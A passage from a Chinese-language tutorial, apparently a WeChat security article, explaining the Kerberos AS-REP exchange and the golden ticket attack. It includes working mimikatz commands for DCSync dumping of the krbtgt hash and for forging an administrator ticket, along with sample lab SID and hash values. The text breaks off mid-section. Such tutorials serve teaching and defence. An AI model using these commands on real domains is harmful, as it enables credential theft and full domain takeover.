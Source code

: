 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIyBUXaJPHRTze1mpYLLIUqUWDYJ94nztBtT7yAr1N2iaLBuIm1VO8yYQ/640?wx_fmt=png)

针对 ntlm hash：  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIgibEU1ibgIg4Ne8fvtqWWDSRMGHWn24h0pUEpqJliaiclD5aehC4BpxtuQ/640?wx_fmt=png)

AS-REP
======

2、**AS-REP**：当 KDC 接收到请求之后，通过 AD 活动目录查询得到该用户的密码 Hash，用该密码 Hash 对请求包的 Authenticator 进行解密，如果解密成功，则证明请求者提供的密码正确，而且需要时间戳范围在五分钟内，且不是重放，于是预认证成功。KAS 成功认证对方的身份之后，发送响应包给客户端。响应包中主要包括：**krbtgt 用户的 NTLM Hash 加密后的 TGT 认购权证 (**即 ticket 这部分**)** 和 **用户 NTLM Hash 加密的 Login Session key(**即最外层 enc-part 这部分**)** 以及一些其他信息。该 Login Session Key 的作用是用于确保客户端和 KDC 下阶段之间通信安全。最后 TGT 认购权证、加密的 Lgoin Session Key、时间戳 和 PAC 等信息会发送给客户端。PAC 中包含用户的 SID，用户所在的组等一些信息。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIahvehymsebodIZVo2N80KdfwnXHRx32u2uSq6bWxvfGicDRwLnDFfkQ/640?wx_fmt=png)

  
在 enc-part 里面最重要的字段是 Login session key，作为下阶段的认证密钥。  
AS-REP 中最核心的东西就是 Login session-key 和 加密的 ticket。正常我们用工具生成的凭据是 .ccache 和 .kirbi 后缀的，用 mimikatz，kekeo，rubeus 生成的凭据是以 .kirbi 后缀的，impacket 生成的凭据的后缀是 .ccache 。两种票据主要包含的都是 Login session-key 和 加密的 ticket，因此可以相互转化。

AS-REP 阶段产生的攻击方式
----------------

### 1. 黄金票据

在 AS-REP 阶段，由于返回的 TGT 认购权证是由 krbtgt 用户的密码 Hash 加密的，因此如果我们拥有 krbtgt 的 hash 就可以自己制作一个 TGT 认购权证，这就造成了黄金票据攻击  

伪造黄金票据的前提：

• 要伪造的域用户 (这里我们一般填写域管理员账户)• 域名 • 域的 SID 值 (就是域成员 SID 值去掉最后的)•krbtgt 账号的哈希值或 AES-256 值

**1. 使用 mimikatz**  

先获取 krbtgt hash：  
在域控执行

```
mimikatz.exe "lsadump::dcsync /domain:0day.org /user:krbtgt"
```

得到如下信息：  
sid：S-1-5-21-1812960810-2335050734-3517558805  
ntlm hash：36f9d9e6d98ecf8307baf4f46ef842a2  
aes256：dbc55f9f925de5a482d3bf5ede7d0d46d4b121c01bdd9d06be4aed367212d3f9  
伪造用户 administrator 执行 (aes256)

```
mimikatz "kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805/aes256:dbc55f9f925de5a482d3bf5ede7d0d46d4b121c01bdd9d06be4aed367212d3f9 /user:administrator/ticket:gold.kirbi"
```

伪造用户 administrator 执行 (krbtgt hash)
